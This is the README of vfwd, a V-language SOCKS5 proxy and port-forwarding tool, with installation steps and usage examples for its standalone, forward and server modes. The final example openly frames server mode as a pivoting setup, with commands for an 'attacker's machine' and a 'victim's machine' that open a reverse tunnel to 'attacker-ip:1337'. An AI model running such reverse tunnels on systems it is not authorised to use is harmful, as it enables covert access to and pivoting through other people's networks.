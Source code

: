 # vfwd
> Tunneling and port forwarding tool written in Vlang

## Installation

1. Install V from the [website](https://vlang.io/) or the [official github repository](https://github.com/vlang/v).

2. Clone the repository and compile

```bash
$ git clone https://github.com/LvMalware/vfwd
$ cd vfwd
$ v -prod .
```

3. Copy the binary to some directory in your PATH

You can cross-compile it to windows by using `mingw-w64` or download a prebuilt binary from the releases section.

## Usage

```
Usage: vfwd [flags] [commands]

A V tool for tunneling and port fowarding

Flags:
  -h  --help          Prints help information.
  -v  --version       Prints version information.
      --man           Prints the auto-generated manpage.

Commands:
  standalone          Run as a standalone SOCKS5 proxy server
  forward             Run forward mode
  server              Run as a server for remote forward
  help                Prints help information.
  version             Prints version information.
  man                 Prints the auto-generated manpage.

```

`vfwd` supports three modes of operation: `standalone`, `forward` and `server`.

In `standalone` mode, it acts as a regular SOCKS5 proxy server listening on an specified address.

Example:

> act as a SOCKS5 server on port 1080
```bash
$ vfwd standalone -l *:1080
```

In `forward` mode, it can be used to forward traffic from one port/address to another or even traffic from a remote host acting as a SOCKS5 proxy server. Example:

> forward all traffic from port 8443 to duckduckgo on port 443
```bash
$ vfwd forward --from *:8443 --to duckduckgo.com:443
```

In `server` mode, it will serve as a SOCKS5 proxy that forwards the traffic through a remote agent (with reverse connection). Example:

> On the attacker's machine, run:
```bash
$ vfwd server --socks-listen *:1080 --control-listen *:1337
```

> On the victim's machine, run
```bash
$ vfwd forward --from attacker-ip:1337 -r
```
